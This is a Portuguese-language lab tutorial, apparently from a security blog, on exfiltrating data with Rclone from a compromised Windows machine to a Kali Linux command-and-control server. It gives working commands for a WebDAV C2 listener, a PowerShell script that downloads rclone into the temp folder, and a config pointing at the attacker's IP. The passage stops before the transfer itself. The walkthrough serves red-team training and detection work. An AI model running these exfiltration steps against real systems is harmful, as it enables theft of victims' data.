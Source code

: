 ### Passo 1: Sobre o ambiente de teste

Para usar o Rclone, o atacante primeiro precisa baixar a ferramenta no sistema comprometido. Para o nosso cenário de testes, vamos fazer uma viagem temporal e considerar que o atacante já está de posse do sistema. Aqui no nosso teste, vamos usar um ambiente Windows como alvo e o Kali Linux como nosso C2.

### Passo 2: Entendendo a configuração e uso do Rclone

O Rclone possui dois modos de operação e configuração. Com o comando `rclone`, você consegue ver todas as opções de uso para ele. O modo mais comum de uso, é utilizar o `rclone config`, com essa opção você inicia a configuração para seu serviço cloud de sua escolha, por exemplo, o OneDrive.

Mas para o nosso cenário de exfiltração, vamos utilizar um médodo bastante comum, que é utilizar um `config.conf`. Na verdade, quando você configura um serviço cloud, ele cria automaticamente um arquivo chamado `rclone.conf` com as configurações de sua escolha.

### Passo 3: Preparando o ambiente

Primeiro vamos configurar o nosso C2. No Kali Linux, com o rclone instalado, execute o comando abaixo:

```bash
rclone serve webdav /home/kali/C2 --addr :1337 --user exfil --pass tration --log-file rclone.log --log-level INFO
```

Neste nosso cenário, estamos configurando um servidor WebDAV bem simples só para exemplo do teste. 

Ele escutará na porta 1337 e receberá como parâmetro um usuário e senha. Os logs de recebimento dos dados ficarão salvos em `rclone.log` com o nível do log informacional.

Próximo passo agora é baixar e configurar o rclone no nosso alvo e iniciar a exfiltração. Vamos dividir os comandos em partes para facilitar o entendimento. Lembrando que em um cenário real, o agente malicioso pode usar os comandos tudo junto ou utilizar outros artíficios para fazer semelhante ao que vamos fazer aqui. Para isso, vamos baixar o rclone.

Copie tudo e execute no terminal PowerShell:

```powershell
$url = "https://downloads.rclone.org/v1.68.1/rclone-v1.68.1-windows-amd64.zip"
$downloadPath = "$env:TEMP\rclone.zip"
$extractPath = "$env:TEMP\rclone"
Invoke-WebRequest -Uri $url -OutFile $downloadPath
Expand-Archive -Path $downloadPath -DestinationPath $extractPath
Set-Location -Path $extractPath
Copy-Item -Path "rclone-v1.68.1-windows-amd64/rclone.exe"
Remove-Item -Path "rclone-v1.68.1-windows-amd64" -Recurse -Force
```

Aqui estamos baixando o arquivo para a pasta `%temp%` do usuário logado, extraindo o arquivo para uma pasta chamada rclone, acessando a página, copiando o binário da pasta extraída, removendo o restante da pasta que não vai ser mais necessário seu uso.

Agora vamos configurar o `config.conf`. Nele vamos configurar o nosso acesso ao C2.

```powershell
$obscurePassword = .\rclone.exe obscure tration
$configContent = @"
[webdav-exfil]
type = webdav
url = http://192.168.125.145:1337
vendor = other
user = exfil
pass = $obscurePassword
"@
$configFilePath = "config.conf"
Set-Content -Path $configFilePath -Value $configContent
```
